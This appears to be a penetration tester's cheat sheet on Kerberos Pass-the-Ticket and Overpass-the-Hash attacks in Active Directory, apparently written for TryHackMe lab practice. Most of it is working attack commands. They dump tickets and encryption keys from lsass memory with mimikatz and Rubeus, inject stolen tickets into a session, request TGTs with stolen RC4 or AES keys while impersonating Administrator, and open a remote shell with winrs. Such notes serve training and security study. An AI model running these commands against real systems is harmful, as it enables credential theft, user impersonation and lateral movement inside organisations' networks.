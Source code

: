 #mimikatz #rubeus #winrs; 
# Pass The Ticket
- Pass the ticket involves stealing the ticket and the session key and using it impersonate the user to get access to resources or services.
- TGT & ST can be used, but TGTs are preferred because we get access to any service.
### Mimikatz
```powershell
# Tickets can be extracted from lsass memory using the following command
sekurlsa::tickets /export
# On linux, it the keys are located in files. Location of these files can be found in the kerberos configuration files: `/etc/krb5.conf`.

# Inject ticket to current session:
kerberos::ptt <ticket_id>
# This purges the current tickets from memory and injects the specified tickets
```
### Rubeus
```bash
.\Rubeus.exe dump # Dumps the tickets 
# Dumps all ticket when run with elevated privilege
.\Rubeus.exe /nowrap # dumps ticket with no new lines
.\Rubeus.exe /service:krbtgt # specify service

# Using the ticket
.\Rubeus.exe ptt /ticket:<base64ticket> 
```
- Verify the ticket with `klist`:
```powershell
klist
```
- Get a shell
```powershell
# Credentails get automatically injected. similar to runas's /netonly
winrs.exe -r:<server/IP> cmd.exe
```
# Overpass The Hash/Pass The Key
- When a user requests a TGT, the TGT encrypts the timestamp and other details with a key derived from their password. 
- The algorithm used call be the following depending on the kerberos configuration :
	- DES (Deprecated)
	- RC4
	- AES128
	- AES256
- We can ask the Key Distrubution Center for TGT by passing this key through mimikatz
### Mimikatz
- Mimikatz will open a PowerShell session with a logon type 9 (whis is the same as running `runas` with `netonly` option).
- Requires elevation.
```powershell
# for dumping keys from lsass
sekurlsa::ekeys

# For RC4 Hash
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:<key> /run:"<command>"

# For AES128
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:<key> /run:"<command>"

# For AES256
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:<key> /run:"<command>"
```
### Rubeus
```powershell
# pass the key: rc4
# Doesn't require elevation
.\Rubeus.exe asktgt /user:administrator /rc4:<hash/key> /ptt

# This requires elevation
.\Rubeus.exe asktgt /user:administrator /aes256:<key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
Notice that when using RC4, the key will be equal to the NTLM hash of a user. This means that if we could extract the NTLM hash, we can use it to request a TGT as long as RC4 is one of the enabled protocols. This particular variant is usually known as Overpass-the-Hash (OPtH). Using RC4 will be marked as "Encryption Donwgrade" and MDI will flag an alert.